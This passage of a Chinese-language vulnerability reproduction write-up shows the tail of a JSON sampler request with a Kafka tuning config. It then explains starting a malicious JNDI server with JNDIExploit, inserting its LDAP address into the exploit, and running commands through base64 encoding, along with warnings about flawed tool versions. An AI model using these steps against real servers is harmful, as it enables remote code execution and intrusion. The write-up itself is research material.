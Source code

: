 ```bash
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

我们通过`JNDIExploit-SNAPSHOT.jar`启动一个恶意 jndi 服务器，然后将 exp 中的 ldap 地址进行替换

`JNDIExploit`建议使用原版仓库自行编译或者下载`releases`

`WhiteHSBG`师傅改版的`JNDIExploit`在`1.4`版本中存在目录穿越漏洞，各位师傅如果有使用的要注意这个问题避免被反制：

[https://github.com/WhiteHSBG/JNDIExploit/issues/10](https://github.com/WhiteHSBG/JNDIExploit/issues/10)

这里也不建议使用`yakit`自带的`Yso-Java Hack`反连，笔者在使用它复现的时候一直没打成功，可能是 mac arm 架构下的 bug 也不一定？

exp 中使用的是`JNDIExploit`提供的基础命令执行的 base64 传递方式

[![](assets/1708677570-992d1e87421476eab4779a0b3bcc9380.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220191016899.png)
